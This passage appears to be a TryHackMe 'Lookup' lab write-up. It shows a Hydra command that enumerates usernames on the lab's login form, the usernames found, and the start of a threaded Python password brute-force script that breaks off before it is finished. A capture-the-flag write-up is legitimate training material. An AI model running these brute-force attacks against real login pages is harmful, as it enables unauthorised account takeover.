 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202142821.png)

We got two usernames: `admin` and `jose`

#### Output
---


### Hydra
---


```ad-note

#### Hydra
---

`sudo hydra -VI -t 64 -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p 'test' lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:F=Wrong username or password. Please try again.' | grep -Eiv 'ATTEMPT'`

#### Output
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202142755.png)

Got the same usernames as before, let's bruteforce the password
```


For brute forcing the password, we can use the following Python code:

```python
import requests
import sys
from tqdm import tqdm
import threading

valid_passwords = []
invalid_passwords = []
lock = threading.Lock()


def check_user_password(url, user, password):
    invalid_errors = [
        "Wrong password. Please try again.",
        "Wrong username or password. Please try again."
    ]
    headers = {
        'Host': 'lookup.thm',
        'User-Agent': 'Intigriti',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,'
				  'image/svg+xml,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://lookup.thm/',
        'Connection': 'keep-alive',
        'Referer': 'http://lookup.thm/login.php',
        'Upgrade-Insecure-Requests': '1',
        'Priority': 'u=0, i',
    }

    data = {
        'username': user,
        'password': password
```
